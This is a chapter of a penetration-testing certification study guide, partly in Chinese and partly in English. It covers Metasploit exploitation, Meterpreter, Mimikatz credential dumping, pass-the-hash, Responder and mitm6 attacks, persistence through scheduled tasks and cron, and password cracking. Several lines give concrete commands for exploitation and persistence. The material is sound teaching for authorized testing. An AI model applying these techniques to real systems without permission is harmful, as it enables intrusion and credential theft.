Metasploitable 2 发行版提供了一个易受攻击的 Linux 系统，其中包含一个非常旧版本的 `phpinfo`。对系统的扫描显示，该漏洞评级为 7.5，检测质量为 80 百分比，如 图 6.3 所示。这不如 ManageEngine 漏洞那么诱人，但你遇到的许多漏洞更可能评级较低，因为组织通常有程序来修补大多数高严重程度问题。


图 6.2 Distributed Ruby vulnerability


图 6.3 `phpinfo()` output accessible

`phpinfo()` 的输出告诉我们这是一个信息泄露漏洞，而不是直接可利用的漏洞。你不应该忽略信息泄露漏洞，即使它们评级较低。它们通常是获取有关系统或应用程序配置的额外有用信息的好方法，并可能提供你执行进一步漏洞利用所需的详细信息。事实上，这非常容易测试。图 6.4 显示了访问发现中描述的 `phpinfo.php` 页面的结果。如果你能，你应该始终利用轻松的信息收集！


图 6.4 `phpinfo.php` output

一旦你确定了想要针对的漏洞，就可以深入研究针对它们的漏洞利用程序。并非每个漏洞都有发布的漏洞利用代码，即使发布了漏洞利用代码，其质量和可用性也可能各不相同。

### 漏洞利用资源

漏洞利用程序可在各种地方获得，从个人网站到中央集合。除此之外，越来越多的重大漏洞和漏洞利用程序拥有自己的宣传网站。许多漏洞利用程序托管在 GitHub 等网站上，由发现漏洞的个人或组织在最初的漏洞披露中提供直接代码下载。漏洞利用程序质量各异；有些漏洞利用程序需要特定的配置或情况才能正常工作，而另一些则只需付出最小努力即可工作。作为渗透测试人员，你需要学习如何评估你打算使用的漏洞利用程序的质量，并且你需要计划一些你尝试的漏洞利用程序可能会失败。

下载漏洞利用程序可能很危险，因为很难验证它们是否未被恶意行为者植入恶意软件。有些网站会提供漏洞利用文件的 MD5 或 SHA1 哈希值；其他网站只会提供下载或指向代码仓库。当然，反恶意软件工具通常会将漏洞利用代码识别为恶意，因为它用于攻击或包含通常与恶意软件或恶意活动相关的工具！

幸运的是，许多大型中央网站专门使漏洞利用程序和漏洞可搜索。

#### 漏洞利用数据库

漏洞利用数据库 ([www.exploit-db.com](http://www.exploit-db.com)) 是最大的公共漏洞利用数据库之一。它包括漏洞利用程序、shellcode 和各种安全论文，以及 Google Hacking Database，这是一组有用的搜索技术（通常称为“Google dorks”），供渗透测试人员和安全专业人员使用。

#### Rapid7 漏洞和漏洞利用数据库

对于 Metasploit 用户，Rapid7 漏洞和漏洞利用数据库 ([`www.rapid7.com/db`](https://www.rapid7.com/db)) 是一个有用的工具，得益于其与 Metasploit 框架和 Metasploit Pro 的 Metasploit 漏洞利用程序集成。如果你打算使用 Metasploit 来驱动你的渗透测试，能够直接根据扫描中发现的漏洞搜索漏洞利用程序可以加快你的规划和漏洞利用过程。

#### 国家漏洞数据库

NIST 在 [`nvd.nist.gov`](http://nvd.nist.gov) 维护国家漏洞数据库 (NVD)。NVD 是一个出色的漏洞资源，但它不像迄今提到的其他资源那样关注漏洞利用程序的可用性。虽然漏洞利用程序可能列在参考部分，但它们不是 NVD 的重点。

#### VULDB

漏洞搜索的另一个选择是 [`vuldb.com`](http://vuldb.com)，一个大型众包漏洞数据库。与其他数据库不同，VulDB 包含预估的漏洞利用程序价格和价格排名。这些额外数据可以帮助渗透测试人员了解市场关注点，并可以成为近期哪些漏洞利用程序可能可用的领先指标。

## 漏洞利用工具包

渗透测试人员需要以一种方式处理大量目标，使他们能够有效地使用漏洞利用程序和漏洞利用载荷来攻破系统并保留对系统的访问权限。漏洞利用工具包对许多测试人员来说起着重要作用。有效的漏洞利用工具包结合了预构建的漏洞利用模块、以通用格式添加和自定义漏洞利用程序的能力，以及一系列使你成为更有效的渗透测试人员的工具。

### Metasploit

现代渗透测试人员武器库中最强大的漏洞利用工具之一是 `Metasploit`。对于大多数渗透测试人员，Metasploit 是其武器库中的默认漏洞利用工具，并已成为漏洞利用程序最常见的开发框架，许多重大漏洞公告后不久就会发布 Metasploit 插件。

当前可用的两个主要版本的 Metasploit 是：Metasploit 框架，一个免费开源的 Metasploit 版本；以及 Metasploit Pro，一个具有增强功能的商业版本。其他版本包括 Metasploit Community，一个 Metasploit 框架的免费 Web 用户界面；Metasploit Express；以及 Armitage，一个专注于漏洞利用和渗透测试团队协作的 Metasploit 图形界面。本书将重点介绍免费可用的 Metasploit 框架。

Metasploit 包含允许不仅仅是漏洞利用的工具和功能。事实上，Metasploit 功能包括发现（Nmap 和其他工具）、漏洞利用、载荷交付以及帮助避免检测的工具。

#### Metasploit 基础

Metasploit 拥有众多功能，但其基本用法相对简单。从高层次来看，你需要知道如何进行四项主要活动：

*   启动控制台。

*   选择一个漏洞利用程序。

*   选择一个载荷。

*   运行漏洞利用程序。


我们将在接下来的几页中探讨此过程，但你应该牢记，Metasploit 非常复杂，其功能和用途足以写满一整本书。我们将介绍一个场景，但你应该根据之前运行的漏洞扫描，练习使用其他漏洞利用。请确保你专注于选择漏洞、查找漏洞利用，然后在易受攻击的目标机器上利用它。

## 启动 Metasploit

启动 Metasploit 很简单——只需输入命令 `msfconsole`，等待 `msf>` 提示符出现，如 图 6.5 所示。


FIGURE 6.5 The Metasploit console

图 6.5 显示了启动屏幕，包括加载的漏洞利用和有效载荷的数量。如果你最近访问过 Exploit-DB 站点，你会注意到 Metasploit 中包含的漏洞利用远少于 ExploitsDB 站点上存在的数量。Metasploit 的漏洞利用必须在 Metasploit 框架中构建，并且需要以匹配 Metasploit 功能的方式可用。因此，为 Metasploit 构建的漏洞利用较少，但它们通常更有用。

一旦启动了 Metasploit，你可以输入问号并按回车来查看可用的命令。

## 选择你的漏洞利用

在大多数情况下，成功漏洞利用的下一步是搜索你的漏洞利用。本章前面我们查看了 Metasploitable 3 系统的 OpenVAS 输出，其中包括 ManageEngine 文件上传漏洞。现在你可以使用该漏洞数据来指导你的漏洞利用选择。

如果你想查看加载的完整漏洞利用列表，可以使用 图 6.6 中所示的 `show exploits` 命令。输出可能有点令人不知所措，因为我们加载了超过 1,600 个漏洞利用，但了解 Metasploit 如何列出和排名漏洞利用是有帮助的。


FIGURE 6.6 Running `show exploits` in Metasploit

如你所见，每个漏洞利用都有一个名称，其中包含层次命名约定。列表中的第一个漏洞利用是 `aix/local/ibstat_path` ——这意味着它是针对 AIX 的漏洞利用，它是本地漏洞利用，并且利用了某些 AIX 系统上发现的 libstat 路径权限提升漏洞。

接下来，你会看到披露日期、排名和漏洞利用的描述。排名很重要！它描述了漏洞利用成功的可能性以及它可能对目标系统产生的影响，如 表 6.1 所示。

通常，这意味着大多数渗透测试人员会专注于排名为 normal 或更高的漏洞利用，并且使用排名为 Good、Great 或 Excellent 的漏洞利用更可取。幸运的是，Metasploit 有能力根据其内置排名过滤漏洞利用。如果你只想搜索评级为 Great 的漏洞利用，可以使用 `search ‐r great` 命令搜索它们，或者输入 `setg MinimumRank great` 设置过滤器，仅允许运行该级别的漏洞利用。

## 搜索漏洞利用

你可以在 Metasploit 内部使用 Search 命令搜索漏洞利用。此命令包含许多关键字，使搜索变得更加容易，如 表 6.2 所示。

TABLE 6.1 Metasploit exploit quality ratings

| Rank || Description |

| --- | --- |

| Excellent || The exploit will never crash the service. |

| --- | --- |

| Great || The exploit has a default target and will either autodetect the target or perform a version check and use an application‐specific return address. |

| Good || The exploit has a default target and is the common case for the software. |

| Normal || The exploit is reliable but requires a specific version that can't be reliably autodetected. |

| Average || The exploit is unreliable or difficult to exploit. |

| Low || The exploit is very difficult or unlikely to successfully result in an exploit (less than a 50 percent chance) for common platforms. |

| Manual || The exploit is unstable, difficult to exploit, or may result in a denial of service, `or` the exploit requires specific manual configuration by the user. |

TABLE 6.2 Metasploit search terms

| Keyword || Description |

| --- | --- |

| `app` || Client or server attack |

| --- | --- |

| `author` || Search by module author |

| `bid` || Search by Bugtraq ID |

| `cve` || Search by CVE ID |

| `edb` || Search by Exploit‐DB ID |

| `name` || Search by descriptive name |

| `platform` || Search by platform (Windows, Linux, Unix, Android, etc.) |

| `ref` || Modules with a specific ref |

| `type` || Search by type: exploit, auxiliary, or post |

在 Metasploit 中搜索漏洞利用有时需要一些工作。ManageEngine 漏洞的 OpenVAS 列表显示 CVE 编号为 CVE‐2015‐8249，这是一个很好的起点，但如果你输入 `search type:exploit cve:cve‐2015‐8249`，你将找不到任何内容。事实上，并非每个漏洞利用在 Metasploit 中都完全记录了 CVE、BID、EDB 和其他详细信息。幸运的是，还有其他选项。一些搜索显示该漏洞利用是由 sinn3r 创建的，因此输入 `search type:exploit author:sinn3r` 将显示我们想要的结果，包括 `exploit/windows/http/manageengine_connectionid_write`，即我们需要的漏洞利用。

除了内置的命令行搜索，Rapid7 还在 [`www.rapid7.com/db/modules`](https://www.rapid7.com/db/modules) 提供基于 Web 的漏洞利用数据库搜索。在那里查找 ManageEngine 漏洞利用只需输入 `ManageEngine` 并从下拉搜索列表中选择 Metasploit Modules 即可。

现在你已经确定了要使用的漏洞利用，告诉 Metasploit 使用它很简单。在 `msf>` 提示符处，输入 `use exploit/windows/http/manageengine_connectionid‐write`，如 图 6.7 所示。


FIGURE 6.7 Selecting an exploit

## 选择有效载荷

Metasploit 中的有效载荷是三种漏洞利用模块之一：single、stager 或 stage。Singles 是自包含的有效载荷，通常会做一些简单的事情，比如添加用户或运行命令，也是部署最简单的有效载荷。Stagers 在目标和主机之间建立网络连接。Stagers 使用 stages，即它们下载以引入更大、更复杂工具的有效载荷。

除了三种类型的漏洞利用模块外，还有八种类型的有效载荷：

*   Inline payloads 是单个有效载荷，将漏洞利用和有效载荷包含在单个包中。

*   Staged payloads 适用于内存受限的环境，并在登陆后加载其余的有效载荷。

*   Meterpreter 是一个强大的有效载荷，通过 Windows 系统上的 DLL 注入工作，并保持驻留在内存中。

*   PassiveX 通过 Internet Explorer 使用 ActiveX，并且正在很大程度上被弃用，尽管偶尔系统可能仍然易受其攻击。

*   NoNX payloads 旨在应对现代内存保护，如数据执行保护 (DEP) 或 Windows No Execute (NX)。

*   ORD (ordinal) 将 DLL 加载到 Windows 系统上的受损进程中。

*   IPv6 payloads 专为 IPv6 网络设计。

*   Reflective DLL injection modules 也针对 Windows 系统，并且仅在内存中运行。

此包的默认有效载荷是 Metasploit Meterpreter，所以我们只需要运行漏洞利用来部署 Meterpreter。

## 模块选项

许多 Metasploit 模块都有可以设置的选项。为了使我们的模块正常工作，我们需要检查选项并设置它们 (图 6.8)。


FIGURE 6.8 Setting module options

This module includes an `rhost` setting, which is our remote target host. In some cases, you may need to set the `rport` setting, particularly if your target is running the vulnerable service on a nonstandard port. Finally, some modules may need a target ID set. In this case, since it is a Windows‐specific exploit, the exploit module in use only sets a single target ID for Windows rather than offering options.

##### Exploitation

With an exploit and payload selected, you can attempt the exploit using the `exploit` command, as shown in Figure 6.9. Note that this exploit uses Meterpreter as its default payload and that we now have a powerful exploit package to use—and that Meterpreter cleaned up after itself by removing the Meterpreter upload. Since Meterpreter runs in memory, there will be no evidence of the exploit in the target service directory! You can read more about Meterpreter at [`www.offensive-security.com/metasploit-unleashed/meterpreter-basics`](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics).


FIGURE 6.9 Successful exploit

Once connected, Meterpreter offers the ability to attempt to escalate privileges with the `getsystem` command. If that fails, shell access is available by simply typing `shell`, which drops you to a shell in the directory that the exploited service runs in, `C:\ManageEngine\DesktopCentral_Server\Bin`, allowing you to take further actions from there.

### PowerSploit

`PowerSploit` is a set of Windows PowerShell scripts that are designed to provide capabilities, including antivirus bypass, code execution, exfiltration, persistence, reverse engineering, and reconnaissance. Much like Metasploit, PowerSploit is a very powerful, flexible tool.

Fortunately for our purposes, Kali Linux also includes PowerSploit in the Applications ➢ Post Exploitation menu. This will drop you to a terminal window in `/usr/share/PowerSploit`. From there, you can run a simple Python web server to expose PowerSploit tools to Windows systems by running `python ‐m SimpleHTTPServer`, and then use an existing Meterpreter session on the remote Windows system to use PowerSploit tools.

If you have administrative access to a remote Windows workstation or server, PowerSploit can provide the toolkit you need to maintain persistence and to perform further reconnaissance. One of the most popular tools to use with PowerSploit is the implementation of `Mimikatz` functionality that it includes as part of the `Invoke‐Mimikatz` PowerShell script. This script injects Mimikatz into memory and then allows you to dump credentials without having Mimikatz on disk, where it could be discovered by antivirus that is monitoring disk activity. Once you have this functionality in memory, you can use typical Mimikatz functions like LSASS (Local Security Authority Subsystem Service) credential dumping, private certificate acquisition, and even acquisition of debug credentials. We will take a closer look at Mimikatz later in this chapter.

### BloodHound

`BloodHound` is a tool used to visualize Active Directory objects and permissions. It can't be used by itself—in fact, you need to have a way to acquire Active Directory information, and then you can feed that information into BloodHound to allow you to analyze the data more easily. That's where SharpHound comes in. SharpHound requires you to be a domain member to run it, and it will then enumerate the AD domain.

Once you have data fed into BloodHound, you can use it to analyze the data, including finding data like a list of domain administrators which are common attack targets. That means that if you're intending to use a tool like PowerSploit or Empire, you may want to perform analysis using BloodHound first to provide a useful target list.

## Exploit Specifics

The PenTest+ exam objectives specifically mention a number of exploits that you should be prepared to encounter on the exam but also leave out a number of common exploit targets. We've covered both here to ensure that you are aware of some of the most important exploit targets you are likely to encounter during your penetration testing efforts.

### RPC/DCOM

Historically, RPC/DCOM (Remote Procedure Call/Distributed Component Object Model) exploits were a common way to attack Windows NT, 2000, XP, and 2003 Server systems, and even modern attack tools often have RPC/DCOM exploits available. More modern exploits tend to focus on other elements, such as the .NET interoperability layers for DCOM. Although occasionally RPC/DCOM vulnerabilities continue to appear, and exploits are often written for them, RPC/DCOM exploits are far less common today.

### PsExec

The Sysinternals Windows toolkit includes PsExec, a tool designed to allow administrators to run programs on remote systems via SMB on port 445. That makes it an incredibly useful tool if it is available to you during a penetration test, because you can execute arbitrary commands, up to and including running an interactive shell. Unfortunately for modern attackers, this tool has been abused so much over time that most antimalware tools will flag PsExec the moment it lands on a system.

A number of Metasploit exploit modules also reference PsExec, which isn't actually the Microsoft Sysinternals tool. Instead, the Metasploit PsExec exploit embeds a payload into a service executable, connects to the ADMIN$ share, uses the Service Control Manager to start the service, loads the code into memory and runs it, and then connects back to the Metasploit machine and cleans up after itself! For an in‐depth look at this and related techniques, visit [`toshellandback.com/2017/02/11/psexec`](https://toshellandback.com/2017/02/11/psexec).

### PS Remoting/WinRM

Windows systems running Windows 7 or later use `Windows Remote Management (WinRM)` to support remote `PowerShell` command execution. For a penetration tester, being able to run PowerShell commands on remote systems is very handy, but this feature has to be turned on first. Fortunately, it is simple. Remote PowerShell command execution can be turned on using the `enable‐PSRemoting ‐force` command while running PowerShell as an administrator.

If the systems aren't part of the same domain, you will still have to set up trust between them using the TrustedHosts setting:

```
 Set-Item wsman:\localhost\client\trustedhosts [ipaddress or hostname]
```

Once you have done this, you have to restart WinRM, and then you can run remote PowerShell commands at will. For a penetration tester, this can make further exploits and retaining access even easier, as long as it remains undetected.

### WMI

`Windows Management Instrumentation (WMI)` allows for remote management and data gathering installed on all Windows systems, making it an attractive target for penetration testers and attackers. WMI provides access to a huge variety of information, ranging from Windows Defender information to SNMP to Application Inventory listings. WMI can allow remote execution of commands, file transfers, and data gathering from files and the registry, among many other capabilities. Multiple PowerShell tools have been written to exploit WMI, including `WMImplant` and `WmiSploit`.

WMImplant has a number of useful functions for lateral movement, including information gathering using `basic_info` and checks to see if there is a logged‐in user via `vacant_system`, as shown in Figure 6.10.


FIGURE 6.10 WMImplant WMI tools

### Fileless Malware and Living Off the Land


# 恶意软件和渗透测试工具

在系统上留下文件的恶意软件和渗透测试工具会使其暴露在扫描仪和其他工具的检测之下。在渗透测试人员希望避免留下妥协指标的情况下，可以使用`fileless malware`。内存驻留工具将自身插入合法进程，以躲避反恶意软件工具的检测，同时允许攻击者采取类似于这些进程的操作。

Windows 的常见 fileless malware 目标包括 PowerShell、Windows Management Instrumentation (WMI) 和 `.NET Framework`，但有数十种程序、操作系统组件和实用程序可能成为目标。

一旦渗透测试人员成功使用 fileless malware 获得对系统的访问权限，避免留下工具和其他文件的下一步被称为 `living off the land`。在这种模式下，你将只使用系统上现有的工具。这些工具可能包括 Linux 实用程序、内置的 Windows 命令和 PowerShell 功能，或目标系统上的任何其他可访问的工具或程序。

像 `CrackMapExec` 这样的工具在 Figure 6.11 中所示，在使用 living‐off‐the‐land 攻击时特别有帮助。它使用启用 Active Directory 的系统的本机工具来进行攻击，并在单个统一 shell 中支持 pass‐the‐hash、null session 和其他技术。


FIGURE 6.11 CrackMapExec's main screen

使用 fileless malware 也有其自身的一系列缺点。如果系统重新启动，你将不得不重复妥协过程。你还必须非常小心避免创建攻击的本地痕迹——收集的信息也可能留下指纹。

## 计划任务和 cron 作业

使用计划任务在受损的 Windows 主机上执行操作是保留访问权限的经过验证的方法。Linux 和 Unix 主机上的 `cron` 作业也是如此，这意味着防御者通常会监控这些位置的更改，或在事件响应过程中早期检查它们。这并不意味着该技术没有用处——它只是意味着它可能比更隐蔽的方法更容易被检测到。但是，与内存驻留漏洞利用不同，计划任务和 `cron` 作业都可以在重新启动后存续。

要通过命令行为 Windows 安排任务，可以使用类似这样的命令，它每天上午 8:00 启动计算器：

```
SchTasks /create /SC Daily /TN "Calculator" /TR "C:\Windows\System32\calc.exe" /ST 08:00
```

同样的技术适用于使用 `cron` 的 Linux 或 Unix 系统，尽管 `cron` 在大多数系统上保留 `/etc/` 下的多个目录，包括 `/etc/cron.hourly`、`/etc/cron.daily`、`/etc/cron.weekly` 和 `/etc/cron.monthly`。放入这些目录中的脚本将根据目录名称按预期执行，脚本可以包括小时后的特定分钟数、24 小时军用时间、月份中的日期、月份、星期几以及要运行的命令。因此，`0 30 1 * * /home/hackeduser/hackscript.sh` 将在每月的第一天凌晨 12:30 运行，并将在 `/home/hackeduser` 目录中执行 `hackscript.sh`。当然，如果你试图保留对系统的访问权限，你会希望在文件名和位置上更加隐蔽！

这种计划任务最常见的用途之一是通过远程启动的“call home”脚本保留对系统的访问权限。这可以防止防御者看到持续的入站或出站连接，并可以用于定期从你控制的系统中获取文件或命令。

## SMB

服务器消息块 (SMB) 是一种具有多种常见实现的文件共享协议。历史上，Windows 将其实现为 CIFS (Common Internet File System)，现代系统使用 SMB2 或 SMB3，Linux 使用 Samba。在每种情况下，底层协议都是相同的，实现和功能上略有差异。由于 SMB 提供名称解析、文件服务、身份验证、授权和打印服务，它是渗透测试人员想要访问提供 SMB 服务的远程系统的有吸引力的目标。

如果你发现 SMB 服务，各种实现使得在尝试漏洞利用时识别主机操作系统和 SMB 实现变得重要。从开放共享和服务中收集信息不需要这些知识。Kali Linux 包含 SMB Scanner，Metasploit 内置了 SMB 扫描功能，可以从暴力破解登录到枚举 SMB 服务完成所有事情。

可以通过 Responder 等工具获取 SMB 凭据，Responder 会回复资源查询，如 Figure 6.12 所示。这利用了对服务响应的信任，告诉客户端响应主机是合法服务提供商，导致它发送其哈希凭据，Responder 主机的所有者随后可以使用这些凭据向合法服务器进行身份验证。

Metasploit 中也存在类似的工具，这意味着在许多情况下，你可以使用单个工具提供许多功能，而否则可能需要多个专用工具才能完成。


FIGURE 6.12 Responder capture flow

一旦你手头有哈希凭据，你可以使用 Impacket、Mimikatz 或 Metasploit 等工具，以明文、Kerberos 或 NTLM 模式将其重放到服务器上。

PenTest+ 考试大纲特别提到了 SecureAuth 的 Impacket Python 基础工具集和库，它除了简单的 SMB 哈希回放之外还提供许多功能。事实上，它包括创建 WMI 持久性、使用客户端从远程机器转储秘密、处理 MS-SQL 身份验证以及复制 PsExec 服务的工具。

以下是核心 Impacket 工具的示例：

*   `psexec.py`，用 Python 复制 PsExec 的功能
*   `wmiexec.py`，用于通过 WMI 使用的 shell，它不会在远程系统上安装服务或代理来运行
*   `smbclient.py`，Python SMB 客户端
*   `reg.py`，允许注册表操作
*   `sniff.py` 和 `sniffer.py`，轻量级 Python 数据包嗅探器；`sniff.py` 使用 Python pcapy 库，而 `sniffer.py` 使用原始套接字，允许你根据需求选择最佳选项

还有数十种其他工具，包括漏洞利用和专用工具，对渗透测试人员非常有帮助。就像 PenTest+ 考试大纲中特别提到的其他工具一样，你应该对 Impacket 是什么有一个大致了解——一组基于 Python 的工具和实用程序——以及在渗透测试过程中何时可能使用它。

像 Figure 6.13 中所示的 pass‐the‐hash 攻击在概念上相对简单：渗透测试人员使用对 Windows 系统的现有访问权限，从 `LSASS.exe` 或 `NTDS.dit` 等其他目标捕获经过身份验证会话中的活动哈希。如果成功，他们然后使用类似 Mimikatz 的 pass‐the‐hash 功能的工具，同时指定用户的用户名、域（或本地帐户）和密码哈希。然后他们可以使用其他工具在目标系统上远程运行命令，继续渗透测试工作，并在前进过程中扩展访问权限。


FIGURE 6.13 Pass‐the‐hash flow

## DNS

DNS 攻击可能发生在服务器级别或主机级别。在许多情况下，最简单的攻击会将任意主机添加到系统的 hosts 文件中，将流量定向到所选目的地，而主机永远不会查询上游 DNS 服务器。

更复杂的攻击包括对 DNS 信息的恶意更改，无论是通过更改主机上的配置、响应 DHCP 请求，还是针对合法 DNS 服务器并接管它们。


PenTest+ 考试大纲特别指出了 `mitm6`，这是一种工具，用于通过回复 DHCPv6 消息并分配一个与攻击者控制的系统配对的链路本地 IPv6 地址来利用 Windows DNS 服务器，将其设为默认 DNS 服务器。一旦发生这种情况，攻击者就可以通过将目标重定向到任意选择的目的地来执行中间人（on-path）攻击。你可以在 [`github.com/fox-it/mitm6`](https://github.com/fox-it/mitm6) 上阅读更多关于该工具的信息。

### RDP

Windows `远程桌面协议 (RDP)` 漏洞虽罕见但威力强大。2017 年发布的 EsteemAudit 远程访问漏洞仅适用于 Windows 2003 和 XP，而非现代 Windows 操作系统。因此，大多数渗透测试人员将现有账户而非服务本身作为目标。获取的凭据和可访问的 `RDP` (`TCP/UDP 端口 3389`) 服务为进入 Windows 系统（尤其是 Windows 服务器）提供了一条有用的路径，这些服务器通常将 RDP 作为远程管理访问方式。

### Apple 远程桌面

像 RDP 和 ARD（Apple 的远程桌面工具）这样的远程访问工具，为获取远程系统的 GUI 访问权限提供了绝佳方式，但当它们存在漏洞时，也会为攻击者创造轻松的入侵路径。渗透测试人员主要通过两种方式使用 ARD。第一种是利用已知存在漏洞的版本来获取访问权限。示例包括内置于 macOS 10 High Sierra 中的版本，该版本通过 ARD 的屏幕共享或远程管理模式包含了远程 root 漏洞。不幸的是，对于渗透测试人员来说，大多数现代 Mac 都设置为自动更新，这使得该漏洞在许多 Mac 上不太可能可用，尽管存在一个 Metasploit 模块使利用该漏洞变得容易。

ARD 还可作为受损 macOS 系统的远程访问方式，如果服务正在运行且以可访问的方式暴露，渗透测试人员可能利用它通过获取的凭据远程登录 Mac。

### VNC

虚拟网络计算 (VNC) 是另一种常见的远程桌面工具。VNC 有多种变体，包括适用于 Windows、macOS 和 Linux 的版本。与 RDP 和 ARD 类似，VNC 提供了便捷的图形远程访问功能，但也可能存在可被利用的漏洞，并为攻击者提供使用获取的凭据或尝试暴力破解远程系统的方式。Metasploit 还包含 VNC 有效载荷，使 VNC 成为在交付 Metasploit 有效载荷时获得远程 GUI 的更简单方式之一。

## SSH

SSH (`安全外壳`) 通过加密连接提供远程 shell 访问。利用它通常依赖于两种方法之一。第一种是寻找易受攻击的 SSH 服务器版本。如果 SSH 服务器服务存在漏洞，可能会出现各种问题，包括凭据泄露甚至远程访问。如果你能获得对系统的足够访问权限，还可以将 SSH 服务器服务替换为木马化或修改后的版本以捕获凭据或提供静默访问。

另一种常见的 SSH 攻击方法是从受损主机或其他暴露点获取 SSH 密钥及其关联的密码短语。SSH 密钥通常在组织内部共享，一旦共享，它们往往会保持静态而没有定期更换流程。这意味着，捕获 SSH 密钥（特别是嵌入到脚本或组织基础设施一部分的密钥）可能导致对使用该密钥的系统或系统的长期访问。由于共享的 SSH 密钥有时具有空密码短语，或者密码短语与共享密钥一起分发，即使那一层安全性也常常被破坏。

### 网络分段测试与利用

网络经常被逻辑分段（分离）为多个虚拟局域网 (`VLANs`)。这使得流量保持分离，通常沿着信任域或功能边界。这些 `VLANs` 将拥有自己的广播域和 IP 范围，并且尽管运行在相同的底层物理网络设备上，它们基本上将像独立网络一样运行。获得对一个 `VLAN` 访问权限的渗透测试人员通常会想知道是否有更多 `VLANs`，然后可能需要想出如何访问这些 `VLANs` 以获得更多访问权限。

可以通过验证高安全区域不与低安全区域通信来测试网络分段。该过程通常像普通渗透测试一样，从端口扫描开始，以验证低安全区域无法联系高安全区域。验证防火墙规则和数据流也是此类测试的常见部分。

除了这些检查之外，可以通过嗅探流量并查找包含 VLAN 信息的数据包（例如带有 `802.1q` 标签的数据包）来检测 `VLANs`。使用防火墙、软件定义网络甚至物理分段来分离网络可能更难观察，可能需要寻找其他线索，例如文档、网络流量或 IP 地址，或者测试防火墙规则。

允许 VLAN 跳转的工具依赖于以下方法之一：

*   双标记以使用 `802.1q` 标签将流量发送到目标 VLAN，因为标签在传输过程中会被网络设备剥离

*   尝试欺骗交换机，使其认为自己是交换机，并应允许干线连接

你可以在 [`www.jay-miah.co.uk/vlan-hopping-concept-attack-example-and-prevention`](http://www.jay-miah.co.uk/vlan-hopping-concept-attack-example-and-prevention) 上阅读更多关于这两种攻击类型的信息。

### 泄露的密钥

密钥在系统和应用程序架构中用于各种目的。它们可用于允许远程登录，可用于应用程序编程接口 (`APIs`)，或可用作访问令牌。渗透测试人员现在通常会寻找暴露的密钥或尝试作为其渗透测试工作的一部分获取密钥。

像 `TruffleHog` 这样的工具会查找与密钥常见格式匹配的字符串，然后报告找到的字符串。你可以在 [`pypi.org/project/truffleHog`](https://pypi.org/project/truffleHog) 上阅读更多关于 `TruffleHog` 的信息。

作为渗透测试人员，你应该考虑密钥可能被无意上传或包含的位置，以及它们通常存储的位置。无意暴露的密钥经常在 GitHub 或其他代码仓库网站，或在暴露的 Amazon S3 存储桶中被发现。更受保护的密钥可能在你作为渗透测试的一部分而攻破或获得访问权限的系统上被发现，使用户目录和配置文件的内容成为访问权限的潜在宝库。电子邮件、Slack 和其他通信方式也可能包含密钥。

## 利用漏洞

一旦成功使用漏洞并获得对系统的访问权限，渗透测试人员通常会调查横向移动和后利用攻击的选项。后利用攻击可能旨在信息收集、权限提升，甚至在同一主机上进行横向移动，以获得更广泛的视角或尝试测试原本被利用的账户或服务所存在的安全边界。

### 常见的后利用攻击

有许多方法可以进行后利用攻击，这些攻击可以提供进一步的访问权限或信息。了解每种技术的基础知识及其典型使用场景，可以帮助你更好地部署漏洞利用。


密码攻击有多种形式，从针对身份验证系统或登录页面的攻击，到专注于被捕获的凭证存储和密码文件的攻击。虽然无需破解即可获取密码始终是首选，但有时进入系统的唯一方式是通过更直接的密码攻击。两种最常见的不依赖凭证窃取或社会工程学的攻击是暴力破解和对密码存储使用彩虹表。

从被攻破的机器获取密码的常见方法包括：

*   `pwdump` 及相关实用程序从 Windows 安全账户管理器 (SAM) 获取 Windows 密码。

*   可以从 `/etc/passwd` 获取 Linux 或 Unix 系统上用户账户的信息，并从 `/etc/shadow` 获取密码的哈希值。

*   `cachedump` 和 `creddump` 实用程序专注于从缓存或 Windows 注册表中检索存储的域哈希、密码或其他缓存信息。

*   针对系统视图或数据库管理表的 SQL 查询可以根据所使用的数据库和架构提供有关用户、权限和密码的信息。

*   在线路上嗅探密码在现代网络中不太常用，因为许多（如果不是大多数）身份验证系统都使用加密。如果可访问，尝试嗅探仍然是一个值得的工具，因为嗅探流量可以帮助渗透测试人员绘制网络和应用程序图，并且有些凭据有时仍以明文传输！

凭据暴力破解依赖于自动化工具来测试用户名和密码对，直到成功为止。渗透测试人员经常用于此目的的工具相当多，包括 `THC‐Hydra`、`John the Ripper` 和 `Brutus`。此外，`Metasploit` 作为其工具包的一部分包含暴力破解功能。

使用 `John the Ripper` 之类的工具可以非常简单。图 6.14 显示了 John 在针对 2012 年 Crack Me If You Can 比赛中的 MD5 哈希密码文件时的使用情况，使用的是内置于 Kali Linux 中的 RockYou 字典列表。


FIGURE 6.14 John the Ripper

在针对特定组织时，构建自定义字典列表是一种常见技术，可以使信息收集阶段收集的文档和其他数据更加有用。请记住要注意破解和捕获的密码，以识别模式、常用重复密码以及其他可能提高密码破解能力的信息。

字典攻击依赖于预构建的单词字典，如前面提到的 RockYou 字典。在许多情况下，渗透测试人员会根据他们对组织的了解，将额外的组织特定字典条目添加到字典文件中，以用于他们的渗透测试。如果你知道目标组织的员工可能认为有意义的常见单词或短语，例如口号、流行人物或术语，甚至仅仅是组织帮助台员工在重置密码时的不良习惯，这些对于这种类型的攻击可能非常有用。如果你没有那种信息，好消息是：许多被允许设置自己的密码的用户使用弱密码，即使有复杂性规则，并且只要你不与多因素身份验证作斗争，使用基于字典的攻击很容易破解至少一些密码的可能性很大！

彩虹表提供了一种强大的方法来攻击哈希密码，通过执行查找而不是尝试使用暴力破解。彩虹表是针对给定密码要求的每个可能密码的预计算列表，然后根据已知哈希算法（如 MD5）进行哈希处理。虽然哈希无法逆转，但这通过计算所有可能的哈希，然后简单地使用快速查找功能来查找哈希以及创建该哈希的密码来绕过该问题。当然，如果你的目标遵循密码哈希最佳实践并使用盐和专门构建的密码哈希算法，则有可能使彩虹表更难使用，甚至不可能。幸运的是，对于渗透测试人员来说，这种情况并不像应该的那样常见！

# 交叉编译

当目标平台运行在与可用于构建漏洞利用的主机不同的架构上时，使用交叉编译代码。在渗透测试期间，你可能会获得 x86 架构系统的管理访问权限，然后需要将漏洞利用部署到运行在 ARM64 平台上的 Android 设备上。如果你无法将漏洞利用的编译二进制文件偷偷带过目标的安全防护，你可能能够传输源代码，甚至在被攻破的远程系统上复制它。

### 权限提升

权限提升攻击有多种形式，但通常分为两大类：垂直提升和水平提升。垂直提升攻击专注于攻击者获得更高的权限。重要的是要记住，虽然直接进入管理员或 root 凭据很诱人，但一种缓慢获得更大访问权限的迂回攻击可能产生相同的效果，并可能绕过阻止试图获得 root 访问权限的攻击的控制。

水平提升攻击横向移动到具有相同权限级别的其他账户或服务。访问其他账户通常旨在访问该账户拥有的数据或特定权限，而不是针对高级权限。

